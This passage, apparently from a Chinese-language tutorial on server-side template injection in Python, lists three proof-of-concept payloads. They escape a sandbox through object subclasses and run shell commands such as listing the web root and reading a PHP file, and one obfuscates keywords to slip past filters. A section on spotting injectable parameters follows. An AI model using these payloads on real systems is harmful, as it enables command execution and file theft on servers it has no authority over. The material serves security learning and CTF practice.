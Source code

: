 5. 收藏的一些poc
   ```
   ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

   object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

   {{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')} }
   ```
   还有就可以参考一下P师傅的 https://p0sec.net/index.php/archives/120/

# 6. 漏洞挖掘
对于一些师傅可能更偏向于实战，但是不幸的是实战中几乎不会出现ssti模板注入，或者说很少，大多出现在python 的ctf中。但是我们还是理性分析下。

每一个（重）模板引擎都有着自己的语法（点）,Payload 的构造需要针对各类模板引擎制定其不同的扫描规则,就如同 SQL 注入中有着不同的数据库类型一样。更改请求参数使之承载含有模板引擎语法的 Payload,通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析,不同的引擎不同的解析。所以我们在挖掘之前有必要对网站的web框架进行检查，否则很多时候`{{} }`并没有用，导致错误判断。

接下来附张图，实战中要测试重点是看一些url的可控，比如url输入什么就输出什么。前期收集好网站的开发语言以及框架，防止错误利用`{{} }`而导致错误判断。如下图较全的反映了ssti的一些模板渲染引擎及利用。
![ssti](ssti.png)
